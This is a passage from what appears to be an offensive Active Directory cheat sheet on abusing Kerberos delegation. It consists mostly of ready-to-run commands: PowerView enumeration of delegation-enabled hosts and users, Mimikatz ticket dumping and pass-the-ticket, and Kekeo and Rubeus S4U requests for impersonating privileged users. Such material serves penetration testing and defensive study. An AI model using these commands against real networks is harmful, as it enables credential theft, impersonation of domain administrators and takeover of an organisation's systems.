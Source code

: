```
```

Detailed Article:
[DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
### Unconstrained Delegation

*WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a 
high value target or DA to connect to it, steal his TGT then ptt and impersonate him!*

Using PowerView:
```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:
```
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```
*ALTERNATIVE:*
Using Rubeus:
```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```
Now we can access the service as the impersonated user!
